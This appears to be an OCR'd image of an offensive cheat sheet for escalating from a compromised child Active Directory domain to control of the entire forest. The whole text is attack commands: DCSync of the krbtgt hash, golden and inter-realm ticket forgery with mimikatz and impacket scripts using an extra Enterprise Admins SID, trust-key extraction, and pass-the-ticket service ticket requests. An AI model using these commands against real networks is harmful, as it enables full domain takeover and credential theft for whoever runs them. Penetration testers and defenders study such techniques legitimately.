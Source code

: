# Child Domain to Forest Compromise - extra SIDs (parent/child) (child/parent)

#### 1) Golden Ticket

 - Get-DomainSID -Domain DOMAIN (Powerview)

 - Get-DomainSID -Domain TARGET_DOMAIN (Powerview)

 - mimikatz lsadump::dcsync /domain:DOMAIN /user:DOMAIN\krbtgt

 - mimikatz kerberos::golden /user:Administrator /krbtgt:KRBTGT_HASH /domain:DOMAIN /sid:USER_SID /sids:ROOT_DOMAIN_SID-519 /ptt

## OR

 - lookupsid.py -domain-sids DOMAIN/USER:'PASSWORD'@DC_IP 0

 - ticketer.py -nthash CHILD_KRBTGT_HASH -domain-sid CHILD_SID -domain CHILD_DOMAIN -extra-sid PARENT_DOMAIN_SID-519 goldenuser

## OR

 - raiseChild.py DOMAIN/USER:'PASSWORD'

#### 2) inter_realm_ticket TRUST (parent/child) (child/parent)

 - mimikatz lsadump::trust /patch

 - mimikatz kerberos::golden /user:Administrator /domain:DOMAIN /sid:DOMAIN_SID /aes256:TRUST_KEY_AES256 /sids:TARGET_DOMAIN_SID-519 /service:krbtgt /target:TARGET_DOMAIN /ptt

## OR

 - ticketer.py -nthash TRUST_KEY -domain-sid CHILD_SID -domain CHILD_DOMAIN -extra-sid PARENT_DOAMIN_SID-519 -spn krbtgt/PARENT_DOMAIN goldenuser

 - getST.py -k -no-pass -spn cifs/DC_FQDN PARENT_DOMAIN/trustfakeuser@PARENT_DOMAIN -debug

### With these attacks, we perform Pass-the-Ticket
